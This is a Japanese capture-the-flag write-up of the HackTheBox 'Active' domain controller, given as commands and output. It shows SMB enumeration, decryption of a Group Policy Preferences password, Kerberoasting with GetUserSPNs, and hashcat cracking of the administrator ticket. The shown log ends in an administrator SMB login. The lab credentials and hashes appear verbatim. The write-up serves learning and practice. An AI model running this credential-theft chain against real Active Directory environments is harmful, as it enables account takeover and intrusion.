

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | 53/tcp    open  domain, 88/tcp    open  kerberos-sec, 135/tcp   open  msrpc, 139/tcp   open  netbios-ssn, 389/tcp   open  ldap, 445/tcp   open  microsoft-ds? |
| 主な侵入経路 | windows-host, web attack path to foothold |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---
## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)

## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
```

### 2. Local Shell

---

SMB/LDAP/Kerberos が揃った AD 環境のため、匿名アクセス可能な共有と AS-REP Roasting の可否を最優先で確認します。
列挙段階で得たユーザ一覧と共有ファイル名の相関を取り、Kerberos 由来のハッシュ取得に繋げる流れが有効です。
権限昇格は ACL 誤設定や高権限資格情報の再利用を軸に、WinRM か PsExec で到達確認します。

### 実施コマンド（抜粋）
```
netexec smb $ip
cat Groups.xml
python3 GetUserSPNs.py -request -dc-ip $ip active.htb/SVC_TGS:'GPPstillStandingStrong2k18'
cat root.txt
```

### 実施ログ（統合）

ポートスキャン実施

```
✅[0:36][CPU:0][MEM:21][IP:10.10.14.92][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 00:36 JST
Nmap scan report for 10.129.148.45
Host is up (0.27s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-23 15:57:18Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49162/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/24%OT=53%CT=1%CU=31196%PV=Y%DS=2%DC=T%G=Y%TM=676
OS:988C6%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=I%SS=S
OS:%TS=7)OPS(O1=M53CNW8ST11%O2=M53CNW8ST11%O3=M53CNW8NNT11%O4=M53CNW8ST11%O
OS:5=M53CNW8ST11%O6=M53CST11)WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6
OS:=2000)ECN(R=Y%DF=Y%T=80%W=2000%O=M53CNW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%
OS:S=A%A=O%F=R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-12-23T15:58:47
|_  start_date: 2024-12-23T15:34:17

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   270.88 ms 10.10.14.1
2   271.08 ms 10.129.148.45

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1333.47 seconds
```

smbやらkerberosやらいろいろ空いてる

SMBで空いてそうなディスクが複数あり

```
✅[0:39][CPU:0][MEM:22][IP:10.10.14.92][/home/n0z0]
🐉 > enum4linux -a $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Dec 24 00:40:27 2024

 =========================================( Target Information )=========================================

Target ........... 10.129.148.45
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ===========================( Enumerating Workgroup/Domain on 10.129.148.45 )===========================

[E] Can't find workgroup/domain

 ===============================( Nbtstat Information for 10.129.148.45 )===============================

Looking up status of 10.129.148.45
No reply from 10.129.148.45

 ===================================( Session Check on 10.129.148.45 )===================================

[+] Server 10.129.148.45 allows sessions using username '', password ''

 ================================( Getting domain SID for 10.129.148.45 )================================

do_cmd: Could not initialise lsarpc. Error was NT_STATUS_ACCESS_DENIED

[+] Can't determine if host is part of domain or part of a workgroup

 ==================================( OS information on 10.129.148.45 )==================================

[E] Can't get OS info with smbclient

[+] Got OS info for 10.129.148.45 from srvinfo:
        10.129.148.45  Wk Sv PDC Tim NT     Domain Controller
        platform_id     :       500
        os version      :       6.1
        server type     :       0x80102b

 =======================================( Users on 10.129.148.45 )=======================================

[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED

[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED

 =================================( Share Enumeration on 10.129.148.45 )=================================

do_connect: Connection to 10.129.148.45 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk
        SYSVOL          Disk      Logon server share
        Users           Disk
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on 10.129.148.45

//10.129.148.45/ADMIN$  Mapping: DENIED Listing: N/A Writing: N/A
//10.129.148.45/C$      Mapping: DENIED Listing: N/A Writing: N/A
//10.129.148.45/IPC$    Mapping: OK Listing: DENIED Writing: N/A
//10.129.148.45/NETLOGON        Mapping: DENIED Listing: N/A Writing: N/A
//10.129.148.45/Replication     Mapping: OK Listing: OK Writing: N/A
//10.129.148.45/SYSVOL  Mapping: DENIED Listing: N/A Writing: N/A
//10.129.148.45/Users   Mapping: DENIED Listing: N/A Writing: N/A

 ===========================( Password Policy Information for 10.129.148.45 )===========================

[E] Unexpected error from polenum:

[+] Attaching to 10.129.148.45 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.129.148.45)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

[E] Failed to get password policy with rpcclient

 ======================================( Groups on 10.129.148.45 )======================================

[+] Getting builtin groups:

[+]  Getting builtin group memberships:

[+]  Getting local groups:

[+]  Getting local group memberships:

[+]  Getting domain groups:

[+]  Getting domain group memberships:

 ==================( Users on 10.129.148.45 via RID cycling (RIDS: 500-550,1000-1050) )==================

[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 ===============================( Getting printer info for 10.129.148.45 )===============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED

enum4linux complete on Tue Dec 24 00:41:49 2024
```

脆弱性は特になし

```
✅[0:36][CPU:0][MEM:21][IP:10.10.14.92][/home/n0z0]
🐉 > smbclient -L //$ip -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        Replication     Disk
        SYSVOL          Disk      Logon server share
        Users           Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.148.45 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

✅[0:40][CPU:0][MEM:22][IP:10.10.14.92][/home/n0z0]
🐉 > nmap --script smb-vuln* -p 445 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 00:40 JST
Nmap scan report for 10.129.148.45
Host is up (0.27s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR

Nmap done: 1 IP address (1 host up) scanned in 26.57 seconds
```

ldapの調査

```
✅[2:29][CPU:1][MEM:19][IP:10.10.14.92][...python3-impacket/examples]
🐉 > ldapsearch -x -H ldap://$ip -s base

### extended LDIF

#

### requesting: ALL

#

#
dn:
currentTime: 20241223172920.0Z
subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=active,DC=htb
dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=active,DC=htb
namingContexts: DC=active,DC=htb
namingContexts: CN=Configuration,DC=active,DC=htb
namingContexts: CN=Schema,CN=Configuration,DC=active,DC=htb
namingContexts: DC=DomainDnsZones,DC=active,DC=htb
namingContexts: DC=ForestDnsZones,DC=active,DC=htb
defaultNamingContext: DC=active,DC=htb
schemaNamingContext: CN=Schema,CN=Configuration,DC=active,DC=htb
configurationNamingContext: CN=Configuration,DC=active,DC=htb
rootDomainNamingContext: DC=active,DC=htb
supportedControl: 1.2.840.113556.1.4.319
supportedControl: 1.2.840.113556.1.4.801
supportedControl: 1.2.840.113556.1.4.473
supportedControl: 1.2.840.113556.1.4.528
supportedControl: 1.2.840.113556.1.4.417
supportedControl: 1.2.840.113556.1.4.619
supportedControl: 1.2.840.113556.1.4.841
supportedControl: 1.2.840.113556.1.4.529
supportedControl: 1.2.840.113556.1.4.805
supportedControl: 1.2.840.113556.1.4.521
supportedControl: 1.2.840.113556.1.4.970
supportedControl: 1.2.840.113556.1.4.1338
supportedControl: 1.2.840.113556.1.4.474
supportedControl: 1.2.840.113556.1.4.1339
supportedControl: 1.2.840.113556.1.4.1340
supportedControl: 1.2.840.113556.1.4.1413
supportedControl: 2.16.840.1.113730.3.4.9
supportedControl: 2.16.840.1.113730.3.4.10
supportedControl: 1.2.840.113556.1.4.1504
supportedControl: 1.2.840.113556.1.4.1852
supportedControl: 1.2.840.113556.1.4.802
supportedControl: 1.2.840.113556.1.4.1907
supportedControl: 1.2.840.113556.1.4.1948
supportedControl: 1.2.840.113556.1.4.1974
supportedControl: 1.2.840.113556.1.4.1341
supportedControl: 1.2.840.113556.1.4.2026
supportedControl: 1.2.840.113556.1.4.2064
supportedControl: 1.2.840.113556.1.4.2065
supportedControl: 1.2.840.113556.1.4.2066
supportedLDAPVersion: 3
supportedLDAPVersion: 2
supportedLDAPPolicies: MaxPoolThreads
supportedLDAPPolicies: MaxDatagramRecv
supportedLDAPPolicies: MaxReceiveBuffer
supportedLDAPPolicies: InitRecvTimeout
supportedLDAPPolicies: MaxConnections
supportedLDAPPolicies: MaxConnIdleTime
supportedLDAPPolicies: MaxPageSize
supportedLDAPPolicies: MaxQueryDuration
supportedLDAPPolicies: MaxTempTableSize
supportedLDAPPolicies: MaxResultSetSize
supportedLDAPPolicies: MinResultSets
supportedLDAPPolicies: MaxResultSetsPerConn
supportedLDAPPolicies: MaxNotificationPerConn
supportedLDAPPolicies: MaxValRange
supportedLDAPPolicies: ThreadMemoryLimit
supportedLDAPPolicies: SystemMemoryLimitPercent
highestCommittedUSN: 110734
supportedSASLMechanisms: GSSAPI
supportedSASLMechanisms: GSS-SPNEGO
supportedSASLMechanisms: EXTERNAL
supportedSASLMechanisms: DIGEST-MD5
dnsHostName: DC.active.htb
ldapServiceName: active.htb:dc$@ACTIVE.HTB
serverName: CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configurat
 ion,DC=active,DC=htb
supportedCapabilities: 1.2.840.113556.1.4.800
supportedCapabilities: 1.2.840.113556.1.4.1670
supportedCapabilities: 1.2.840.113556.1.4.1791
supportedCapabilities: 1.2.840.113556.1.4.1935
supportedCapabilities: 1.2.840.113556.1.4.2080
isSynchronized: TRUE
isGlobalCatalogReady: TRUE
domainFunctionality: 4
forestFunctionality: 4
domainControllerFunctionality: 4

### search result

search: 2
result: 0 Success

### numEntries: 1

```

```
❌[2:35][CPU:1][MEM:21][IP:10.10.14.92][/home/n0z0]
🐉 > netexec smb $ip
SMB         10.129.148.45   445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
```

ユーザの特定

```
❌[1:56][CPU:1][MEM:19][IP:10.10.14.92][/home/n0z0/tools/windows]
🐉 > ./kerbrute userenum --dc $ip -d active.htb /usr/share/wordlists/usernames.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 12/24/24 - Ronnie Flathers @ropnop

2024/12/24 01:56:44 >  Using KDC(s):
2024/12/24 01:56:44 >   10.129.148.45:88

2024/12/24 01:57:07 >  [+] VALID USERNAME:       administrator@active.htb
2024/12/24 02:05:03 >  [+] VALID USERNAME:       dc@active.htb
```

impacketを使って接続する

```
python3 ~/tools/windows/impacket/smbclient.py -no-pass $ip
```

xmlファイルが見つかって、中を見ると認証情報が書いてありそうな感じがした

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 19:37:44 2018
  ..                                  D        0  Sat Jul 21 19:37:44 2018
  Groups.xml   
```

中を見ると認証情報が記載されてる

```
✅[0:53][CPU:0][MEM:20][IP:10.10.14.92][/home/n0z0/tools/windows]
🐉 > cat Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

どうにかハッシュを解析するとパスワードが出てくる

```
✅[1:44][CPU:1][MEM:20][IP:10.10.14.92][...home/n0z0/work/htb/Active]
🐉 > gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
GPPstillStandingStrong2k18
```

```
✅[0:24][CPU:0][MEM:19][IP:10.10.14.92][...python3-impacket/examples]
🐉 > sudo smbmap -H active.htb -u '' -p '' -r

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...
[|] Checking for open ports...
[/] Checking for open ports...
[-] Checking for open ports...
[\] Checking for open ports...
[|] Checking for open ports...
[*] Detected 1 hosts serving SMB
[/] Initializing hosts...
[-] Initializing hosts...
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[\] Authenticating...
[|] Enumerating shares...
[|] Traversing shares...
                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        Replication                                             READ ONLY
        ./Replication
        dr--r--r--                0 Sat Jul 21 19:37:44 2018    .
        dr--r--r--                0 Sat Jul 21 19:37:44 2018    ..
        dr--r--r--                0 Sat Jul 21 19:37:44 2018    active.htb
        SYSVOL                                                  NO ACCESS       Logon server share
        Users                                                   NO ACCESS
[/] Closing connections..
[-] Closing connections..
```

取得したパスワードを設定するとみられる箇所が増える

```
✅[1:48][CPU:1][MEM:20][IP:10.10.14.92][...z0/tools/windows/impacket]
🐉 > smbmap -H $ip -u SVC_TGS -p 'GPPstillStandingStrong2k18'

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.4 | Shawn Evans - ShawnDEvans@gmail.com<mailto:ShawnDEvans@gmail.com>
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...
[|] Checking for open ports...
[/] Checking for open ports...
[-] Checking for open ports...
[\] Checking for open ports...
[|] Checking for open ports...
[/] Checking for open ports...
[*] Detected 1 hosts serving SMB
[-] Initializing hosts...
[/] Authenticating...
[-] Authenticating...
[\] Authenticating...
[*] Established 1 SMB connections(s) and 1 authenticated session(s)
[|] Authenticating..
[-] Enumerating shares...
[/] Enumerating shares...

[+] IP: 10.129.103.88:445       Name: active.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
        Users                                                   READ ONLY
[-] Closing connections..
[-] Closing connections..
[*] Closed 1 connections
```

ユーザのSPNを取得するコマンドを実行すると情報が取得できた

```
❌[2:09][CPU:1][MEM:20][IP:10.10.14.92][...z0/tools/windows/impacket]
🐉 > python3 GetUserSPNs.py -request -dc-ip $ip active.htb/SVC_TGS:'GPPstillStandingStrong2k18'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-19 04:06:40.351723  2024-12-26 22:57:37.262940

[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$afbafdd7afc93c95bb278d8b82961262$10fdae20de11abef2a5ce2bba9929f7dc39a9053a8e1eaaa22260aae8c3a9fe1fc6038102d48876c68f0456bb7efb56ad462f183327e189f28c330afb3d70af809881c46759d8aacd337970459856012375457bc28bcecbe92cc6ed8332d3dca66f011080c349bdf71937f86db440983004a065093278b1579a8f669d6ea165163ec09b08cb65a502a4050b97618eb28989a1fc941a160336a092608d9801023ab569686f80d2a93d7880f53cb61be184ed168323678a13410d4003ef3380c1f3504aad313cf107ee9f7f5ea13a7738c45f74857a7232fd22fdd0fe0ae74870d6622643e6e8824dd2f525c50ff7f327b7705e174433f8093e1c0c4809062caed06c14a5ed629f6e14487a74e6834e6700d5b46c57c1c1500c89164039d3c7abfb2f7f9856583920fb33d86d112b791fcd6f3691c71bacc493652aa8243e083ae3f745b48f6cd458619ef558068225524cf4f5b92bf4b239c92cc33294071d906378ff417e8ea4b678edc89b5ee21312ef9b6ae02f466bd459da242ddef52e5b19bc99de0291111832c7da6f2aeef230f8564efcea5254da67cf64567ffccfec52fb7df88219ea833055837a8cc910c3d44bb927dafa71d42d9bc52e80040af72ab15b66c4129032872e0bd30a59725ab3f5b62faf1ad0d5cf593837a99b4151556c7180f59fc34851fc4aadb18d7bac172f353258f5d8fdef55548b398368153a0e5dec12024c326ad0d67d0431b0b5e94a636f2469adcdbe3b7ce2389385d30abad96151bf8043a840fd8a3dbccbd2b6df1382f3708fcfc60fc37b1657d24626755eafb694a7d85e3e95e2239abdb5edb30b9d7707325a33e713755ac805f44dbbd4f81245641aa20c1daaa05b0b72d37ff7eb417bab30ca429318fa4d2f0fb51fbc354c435771d252f160c1383750b5f1e8d1d1652e9d752929ac41bbde22156c6768a063a55144dbc28f0246c4c9b79e3c4b5923d070b7a8f07bfcbe74741bc9e8503bd7ee67457706fc682ecfabd76722f8b368e347b042f122c907cf515760c59e0c8e5fad5defed7c5fa4a030624a318ae47695b9a4834f0b827a8d271fd9504144d06388053d504e5b803d844d2788b34fb259c0fa1a97f35d3e04b2187edb3f7bc5a93a4389651f51b6a316be3d96323c23ddb1d60b362cd0f2107d039910657926684b393ae9ca314a29366b1f62fd33cf51288b00103cce59a9fa37f2d47d63d6218d57e375aaf61332ca4dcfb73188ec293ba0ba0
```

取得したハッシュをhashcatで解析する

kerberosは13100を指定して実行する


*Caption: Screenshot captured during active attack workflow (step 1).*

```
✅[2:11][CPU:1][MEM:20][IP:10.10.14.92][...home/n0z0/work/htb/Active]
🐉 > hashcat -m 13100 -a 0 krbhash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 Microsoft Surface (R) Edition, 2777/5618 MB (1024 MB allocatable), 16MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 4 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$afbafdd7afc93c95bb278d8b82961262$10fdae20de11abef2a5ce2bba9929f7dc39a9053a8e1eaaa22260aae8c3a9fe1fc6038102d48876c68f0456bb7efb56ad462f183327e189f28c330afb3d70af809881c46759d8aacd337970459856012375457bc28bcecbe92cc6ed8332d3dca66f011080c349bdf71937f86db440983004a065093278b1579a8f669d6ea165163ec09b08cb65a502a4050b97618eb28989a1fc941a160336a092608d9801023ab569686f80d2a93d7880f53cb61be184ed168323678a13410d4003ef3380c1f3504aad313cf107ee9f7f5ea13a7738c45f74857a7232fd22fdd0fe0ae74870d6622643e6e8824dd2f525c50ff7f327b7705e174433f8093e1c0c4809062caed06c14a5ed629f6e14487a74e6834e6700d5b46c57c1c1500c89164039d3c7abfb2f7f9856583920fb33d86d112b791fcd6f3691c71bacc493652aa8243e083ae3f745b48f6cd458619ef558068225524cf4f5b92bf4b239c92cc33294071d906378ff417e8ea4b678edc89b5ee21312ef9b6ae02f466bd459da242ddef52e5b19bc99de0291111832c7da6f2aeef230f8564efcea5254da67cf64567ffccfec52fb7df88219ea833055837a8cc910c3d44bb927dafa71d42d9bc52e80040af72ab15b66c4129032872e0bd30a59725ab3f5b62faf1ad0d5cf593837a99b4151556c7180f59fc34851fc4aadb18d7bac172f353258f5d8fdef55548b398368153a0e5dec12024c326ad0d67d0431b0b5e94a636f2469adcdbe3b7ce2389385d30abad96151bf8043a840fd8a3dbccbd2b6df1382f3708fcfc60fc37b1657d24626755eafb694a7d85e3e95e2239abdb5edb30b9d7707325a33e713755ac805f44dbbd4f81245641aa20c1daaa05b0b72d37ff7eb417bab30ca429318fa4d2f0fb51fbc354c435771d252f160c1383750b5f1e8d1d1652e9d752929ac41bbde22156c6768a063a55144dbc28f0246c4c9b79e3c4b5923d070b7a8f07bfcbe74741bc9e8503bd7ee67457706fc682ecfabd76722f8b368e347b042f122c907cf515760c59e0c8e5fad5defed7c5fa4a030624a318ae47695b9a4834f0b827a8d271fd9504144d06388053d504e5b803d844d2788b34fb259c0fa1a97f35d3e04b2187edb3f7bc5a93a4389651f51b6a316be3d96323c23ddb1d60b362cd0f2107d039910657926684b393ae9ca314a29366b1f62fd33cf51288b00103cce59a9fa37f2d47d63d6218d57e375aaf61332ca4dcfb73188ec293ba0ba0:Ticketmaster1968

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...ba0ba0
Time.Started.....: Fri Dec 27 02:12:01 2024 (6 secs)
Time.Estimated...: Fri Dec 27 02:12:07 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1820.6 kH/s (1.35ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10543104/14344384 (73.50%)
Rejected.........: 0/10543104 (0.00%)
Restore.Point....: 10534912/14344384 (73.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Tiona172 -> Teague

Started: Fri Dec 27 02:11:59 2024
Stopped: Fri Dec 27 02:12:09 2024
```

administratorアカウントで入ってflagを見る

```
❌[2:14][CPU:1][MEM:20][IP:10.10.14.92][...z0/tools/windows/impacket]
🐉 > smbclient //$ip/Users -U active.htb\\administrator%Ticketmaster1968
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 23:39:20 2018
  ..                                 DR        0  Sat Jul 21 23:39:20 2018
  Administrator                       D        0  Mon Jul 16 19:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 14:06:44 2009
  Default                           DHR        0  Tue Jul 14 15:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 14:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 13:57:55 2009
  Public                             DR        0  Tue Jul 14 13:57:55 2009
  SVC_TGS                             D        0  Sun Jul 22 00:16:32 2018
                                                                                                                                   5217023 blocks of size 4096. 278900 blocks available
smb: \> cd administartor
cd \administartor\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \> ls
  .                                  DR        0  Sat Jul 21 23:39:20 2018
  ..                                 DR        0  Sat Jul 21 23:39:20 2018
  Administrator                       D        0  Mon Jul 16 19:14:21 2018
  All Users                       DHSrn        0  Tue Jul 14 14:06:44 2009
  Default                           DHR        0  Tue Jul 14 15:38:21 2009
  Default User                    DHSrn        0  Tue Jul 14 14:06:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 13:57:55 2009
  Public                             DR        0  Tue Jul 14 13:57:55 2009
  SVC_TGS                             D        0  Sun Jul 22 00:16:32 2018

                5217023 blocks of size 4096. 278900 blocks available
